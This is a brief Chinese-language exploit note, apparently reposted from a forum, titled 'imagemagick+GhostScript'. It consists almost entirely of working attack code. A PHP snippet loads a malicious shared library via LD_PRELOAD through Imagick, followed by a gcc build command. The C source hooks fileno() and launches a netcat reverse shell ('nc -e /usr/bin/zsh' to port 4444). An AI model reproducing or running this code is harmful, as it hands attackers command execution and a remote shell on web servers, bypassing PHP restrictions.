 # imagemagick+GhostScript

> 原文：[https://www.zhihuifly.com/t/topic/3465](https://www.zhihuifly.com/t/topic/3465)

## **imagemagick+GhostScript**

**exp**

```
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?> 
```

其中 imag.c文件需要编译，命令如下

```
gcc -shared -fPIC imag.c -o imag.so 
```

> imag.c代码

```
#include <stdlib.h>
#include <string.h>
void payload() {
  const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
  system(cmd);
}
int fileno() {
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
    payload();
} 
```